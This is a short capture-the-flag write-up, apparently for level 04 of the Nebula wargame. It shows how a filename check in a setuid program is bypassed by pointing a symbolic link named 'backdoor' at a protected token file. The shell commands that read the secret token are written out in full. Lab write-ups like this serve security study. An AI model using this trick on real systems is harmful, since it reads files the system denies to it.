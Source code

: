 # About
This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.

# Exploitation
```bash
level04@nebula:~$ /home/flag04/flag04 token
You may not access 'token'
```
This program makes me not able to read token file(that contains password).

To bypass that, my method is simple.

```bash
level04@nebula:~$ ln -s /home/flag04/token /home/level04/backdoor
level04@nebula:~$ ls -l
total 0
lrwxrwxrwx 1 level04 level04 18 2017-12-05 14:10 backdoor -> /home/flag04/token
level04@nebula:~$ /home/flag04/flag04 backdoor
06508b5e-8909-4f38-b630-fdb148a848a2
```
Make simbolic link file and pass that name.
